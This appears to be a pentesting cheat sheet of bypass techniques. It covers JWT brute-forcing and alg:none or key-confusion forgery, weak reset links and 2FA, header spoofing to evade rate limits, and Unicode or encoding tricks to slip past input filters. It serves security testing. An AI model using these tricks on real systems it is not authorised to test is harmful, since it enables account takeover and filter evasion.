 # Bypasses

## Auth

### **JWT**

#### **Bruteforce**

Symmetric algorithms are vulnerable to the local bruteforce attack.

* HS256
* HS512
* HS...

You can try to brute such algorithms to issue a new JWT.

```bash
git clone https://github.com/Sjord/jwtcrack.git
cd jwtcrack

#Bruteforce using crackjwt.py
python crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc /usr/share/wordlists/rockyou.txt

#Bruteforce using john
python jwt2john.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc > jwt.john
john jwt.john #It does not work with Kali-John
```

#### **Alg: none**

Set the algorithm used as "None" and remove the signature part. ****

#### **Change** asymmetric alg to symmetric

If you change the algorithm from RS256 to HS256, the back end code uses the public key as the secret key and then uses the HS256 algorithm to verify the signature.

Then, using the public key and changing SR256 to HS256 we could create a valid signature. You can retrieve the certificate of the web server executing this: 

```bash
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem 
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
```

For this attack you can use the JOSEPH Burp extension. 

1. In the Repeater tab select the JWS tab and select the Key confusion attack. 
2. Load the PEM, Update the request and send it. \(This extension allows you to send the "non" algorithm attack also\).

It is also recommended to use the tool jwt\_tool with the option 2 as the previous Burp Extension does not always works well

### **Password reset links**

They can be:

* Predictable You need to know the generation algorithm to generate your own link
* Reusable Try to look for leaked tokens
* Leaked 90% you can see them in some marketing systems

### **Custom logic**

* Reinvented session algorithms All sessions must be at least:

  * Not predictable
  * Unique
  * Revocable
  * Time limited

  Are you sure, that you did not forget about all such properties in your custom algorithm?

* Custom cryptography, based on obscurity Try to get the app source code and all such security will fall

### 2FA

#### User mapping

It can be not mapped to the user account.  
If so, just try to use an already created token from the account to authenticate.

#### Reusing

Maybe you can reuse an already used token inside the account to authenticate.



## Rate limits

```text
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1

Forwarded: for=127.0.0.1; host=127.0.0.1
```

## Filters

### **Dot & digits**

[http://⑯⑨](http://xn--wrhn)。②⑤④。⑯⑨｡②⑤④/

[http://⓪ⓧⓐ⑨](http://xn--wrhznmcl)｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/

[http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/](http://xn--wrha42abtcdd9m3a:80/)

[http://②⑧⑤②⓪③⑨①⑥⑥:80/](http://xn--orhbaeijakm21k:80/)

[http://④②⑤](http://xn--prhde)｡⑤①⓪｡④②⑤｡⑤①⓪:80/

[http://⓪②⑤①](http://xn--orhbj84c)。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥

![](../../.gitbook/assets/image%20%281%29.png)

### **Quote**

* DB
  * $$
  * CHR\(39\)
* %27 / %22

## Special characters

### Dot

```text
evil.com = evil。com = evil%25E3%2580%2582com
```

### Slashes

```text
Python example (2 slashes in advance are for this language escaping)
/ = \\\\\\\\x2f
\\ = \\\\\\\\x5c
```

### Spaces

```text
SQL:
' ' = + = /**/
```

### Quotes

```text
SQL:
' = $$
JS:
' = `
```

### Other

![](../../.gitbook/assets/image%20%282%29.png)

```text
< ~ %e2%89%ae
< ~ %ef%b9%a4
< ~ %ef%bc%9c
> ~ %u226e
> ~ %e2%89%af
> ~ %ef%b9%a5
> ~ %ef%bc%9e
```

\([https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/\#](https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/#)\)

